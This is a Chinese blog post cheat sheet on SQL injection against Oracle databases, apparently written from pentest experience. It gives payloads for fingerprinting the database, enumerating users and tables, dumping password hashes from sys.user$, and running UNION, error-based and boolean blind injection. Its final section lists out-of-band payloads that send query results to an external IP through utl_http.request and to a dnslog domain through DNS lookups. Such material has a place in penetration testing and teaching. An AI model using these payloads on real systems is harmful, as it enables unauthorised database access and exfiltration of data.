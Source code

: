 +++
title = "SQL注入tips(Oracle)"
topics = ["Pentest"]
tags = ["injection","oracle"]
description = "前几天渗透测试时遇到了Oracle的注入，这里简单总结一下Oracle中的SQL注入常见的利用手法：联合查询注入、报错型注入、布尔型注入、无返回值的盲注"
date = "2019-01-04T20:23:35+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:01
 * @LastEditTime: 2020-01-07 13:35:44
 -->
### 0x00 判断数据库类型
* Oracle有一些自带的表：dual、user_tables
    * ```id=45 and (select count(*) from user_tables)>0--```
    * ```id=45 and (select count(*) from dual)>0--```

* 利用自带的一些函数：譬如utl_http.request 这些
* 利用Oracle的字符连接符：CHR(97)||CHR(110)||CHR(100)||CHR(32)||CHR(49)||CHR(61)||CHR(49)

### 0x01 基本信息获取
* 查看sid
```
select instance_name from v$instance;
```

* 查看数据库版本：
```
select banner from v$version where rownum=1;
select banner from sys.v_$version where rownum=1;
```

* 查看用户：
```
select user from dual; --当前用户
select username from user_users; --当前用户
select username from all_users; --查看所有用户
select username from dba_users; --查看所有用户(需要有权限)
```

* 查看当前用户角色：
```
select role from session_roles;
```

* 查看数据库用户名和密码：
```
select name, password, astatus from sys.user$; --需要权限
```

* 通过注入获取数据
    ```
    --列database
    select global_name from global_name;
    select sys.database_name from dual;
    select name from v$database;
    select instance_name from v$instance;
    --列owner
    select distinct owner from all_tables;
    --列owner的tables
    select table_name from all_tables where owner='UTEST';
    --列tables的columns
    select column_name from all_tab_columns where table_name='TUSER';
    select column_name from all_tab_cols where table_name='TUSER';


    --列tablespace
    select tablespace_name from user_tablespaces;
    --列tablespace的tables
    select table_name from user_tables where tablespace_name='DB_TEST_DATA';
    --列tables的columns
    select column_name from user_tab_columns where table_name='TUSER';
    ```

### 0x02 UNION query注入

* 存在注入
![70](/img/post/20190103-162239.png)

* 判断列数
![40](/img/post/20190103-162620.png)
![80](/img/post/20190103-162720.png)

* 尝试union select
![60](/img/post/20190103-163005.png)
依次判断字段类型(下图判断出第二个字段是字符型)
![80](/img/post/20190103-163324.png)
![50](/img/post/20190103-163228.png)

* 得到表名  
得到表的个数
![75](/img/post/20190103-164019.png)
得到第一个表的表名
![75](/img/post/20190103-163610.png)
得到第二个表的表名
![75](/img/post/20190103-164519.png)

* 得到第一个表的字段
![80](/img/post/20190103-165302.png)

* 得到第一个表的数据
![80](/img/post/20190103-170336.png)

### 0x03 error-based注入
* ctxsys.drithsx.sn
![60](/img/post/20190104-160714.png)

* dbms_xdb_version.checkin
![80](/img/post/20190104-161325.png)

* dbms_xdb_version.makeversioned
![85](/img/post/20190104-161521.png)

* dbms_xdb_version.uncheckout
![85](/img/post/20190104-161727.png)

* dbms_utility.sqlid_to_sqlhash
![85](/img/post/20190104-161838.png)

* utl_inaddr.get_host_name(在11g以后需要是超级用户或已授予网络访问权限的用户才能使用)
![](/img/post/20190104-203238.png)

### 0x04 boolean-based blind注入
* case...when...
![65](/img/post/Xnip2019-08-12_11-12-32.png)
![65](/img/post/Xnip2019-08-12_11-13-46.png)

* decode

decode(条件，值1，值1结果，值2，值2结果，。。。值n，值n结果，默认值)

条件和那个值相等就返回那个值的结果
![65](/img/post/20190104-165737.png)
![65](/img/post/20190104-165817.png)

* instr

instr(字符串，子串)

从一个字符串中查找指定子串的位置，这里一直将位置置为1
![55](/img/post/20190104-201134.png)
![55](/img/post/20190104-201157.png)
![55](/img/post/20190104-201216.png)

### 0x05 无回显注入
* web服务接收结果
```
select * from utest.msg where id=2 and 1=utl_http.request('http://59.108.35.198:8888/'||(select user from dual));
```

* dns服务接收结果
```
select * from utest.msg where id=2 and (select utl_inaddr.get_host_address((select user from dual)||'.dnslog.wyb0.com') from dual) is not null;
```

* dns服务接收结果
```
select * from utest.msg where id=2 and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.dnslog.wyb0.com') from dual) is not null;
```

<br>
#### Reference(侵删)：
* [https://www.freebuf.com/articles/web/5411.html](https://www.freebuf.com/articles/web/5411.html?_blank)
* [https://www.iswin.org/2015/06/13/hack-oracle/](https://www.iswin.org/2015/06/13/hack-oracle/?_blank)
* [https://www.freebuf.com/column/146464.html](https://www.freebuf.com/column/146464.html?_blank)

